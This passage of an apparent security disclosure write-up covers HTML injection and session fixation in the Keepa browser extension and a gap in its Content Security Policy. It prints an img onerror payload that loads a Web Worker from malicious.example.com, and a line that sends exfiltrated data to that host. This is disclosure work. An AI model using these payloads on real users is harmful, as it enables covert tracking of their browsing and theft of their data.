 Your JavaScript code (here `alert(1)`) will be injected into each and every Keepa Box of this user now. As the Keepa session is persistent, it will survive browser restarts. And it will even run on the main Keepa website if the user logs out, giving you a chance to prevent them from breaking out of the session fixation.

Keepa addressed this vulnerability by forbidding angled brackets in user names. The application still contains plenty of potentially exploitable HTML injection points, Content Security Policy hasn’t been changed either. The session fixation attack is also still possible.

### The impact

The most obvious consequence of this vulnerability: the malicious code can track all Amazon products that the user looks at. And then it can send messages that the Keepa extension will react to. These are mostly unspectacular except for two:

* `ping`: retrieves the full address of the Amazon page, providing additional information beyond the mere article ID
* `openPage`: opens a Private Browsing / Incognito window with a given page address (seems to be unused by Keepa Box code but can be abused by malicious code nevertheless)

So the main danger here is that some third party will be able to spy on the users whenever they go to Amazon. But for that it needs to inject considerable amounts of code, and it needs to be able to send data back. With user names being at most 100 characters long, and with Keepa using a fairly restrictive Content Security Policy: is it even possible?

Usually, the approach would be to download additional JavaScript code from the attacker’s web server. However, Keepa’s Content Security Policy mentioned above only allows external scripts from a few domains. Any additional scripts still have to be inserted as inline scripts.

Most other Content Security Policy directives are similarly restrictive and don’t allow connections to arbitrary web servers. The only notable exception is `worker-src`:

    worker-src 'self' blob: data: *;

No restrictions here for some reason, so the malicious user name could be something like:

{{< highlight html >}}
<img
  src=x
  onerror="new Worker('//malicious.example.com').onmessage=e=>document.write(e.data)">
{{< /highlight >}}

This will create a [Web Worker](https://developer.mozilla.org/en-US/docs/Web/API/Web_Workers_API) with the script downloaded from `malicious.example.com`. Same-origin policy won’t prevent it from running if the right [CORS headers](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS) are set. And then it will wait for HTML code to be sent by the worker script. The HTML code will be added to the document via `document.write()` and can execute further JavaScript code, this time without any length limits.

The same loophole in the Content Security Policy can be used to send exfiltrated data to an external server: `new Worker("//malicious.example.com?" + encodeURLComponent(data))` will be able to send data out.

## Data exposure vulnerability
